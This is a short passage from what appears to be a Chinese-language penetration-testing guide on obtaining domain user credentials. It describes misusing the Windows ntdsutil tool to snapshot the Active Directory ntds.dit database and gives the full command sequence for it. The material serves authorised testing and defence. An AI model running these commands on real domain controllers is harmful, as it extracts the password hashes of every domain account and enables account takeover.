 ![](assets/1710388326-fd272312496f4b9a3bf366c8fcac4ef7.png)

### 2、域用户凭证

**a、ntdsutil 域快照**

ntdsutil 是一个命令行工具是域控制器生态系统的一部分其主要用途是使管理员能够轻松访问和管理 Windows Active Directory 数据库。但它常被渗透测试人员或红队队员滥用来获取现有的 ntds.dit 文件快照。在 Windows Server 2008 及以上版本的系统中可直接使用 ntdsutil。

```bash
ntdsutil
activate instance ntds
ifm
create full C:\ntdsutil
quit
quit
```
